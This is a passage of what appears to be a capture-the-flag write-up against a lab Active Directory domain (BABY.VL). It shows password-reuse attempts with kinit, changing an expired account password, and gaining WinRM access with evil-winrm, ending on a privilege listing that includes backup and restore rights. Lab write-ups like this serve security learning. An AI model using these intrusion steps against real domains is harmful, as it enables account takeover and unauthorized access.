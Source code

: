 
# Phase 4: Initial Authentication and Password Change

Let's try to authenticate as `Teresa.Bell`, but let’s also try other users since the password might have been reused. Let's try `Caroline.Robinson`.

```bash
kinit Caroline.Robinson@BABY.VL
```

The authentication indicates that `Caroline.Robinson`'s password is expired and must be changed. To change the password, we need to configure Kerberos properly. Edit `/etc/krb5.conf`.

```
[libdefaults]
        default_realm = BABY.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

<SNIP>

[realms]
        BABY.VL = {
                kdc = BABYDC.BABY.VL
                admin_server = BABYDC.BABY.VL
        }
```

Now change Caroline's password.

```
kpasswd Caroline.Robinson@BABY.VL
```

---

# Phase 5: Initial Access via WinRM

Once the password is changed, we can request a ticket on Caroline’s behalf and using a `pass-the-ticket` attack to authenticate via WinRM.

```
evil-winrm -i BABYDC.BABY.VL -r BABY.VL
```

After successful authentication, let's check our privileges:

```
*Evil-WinRM* PS C:\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```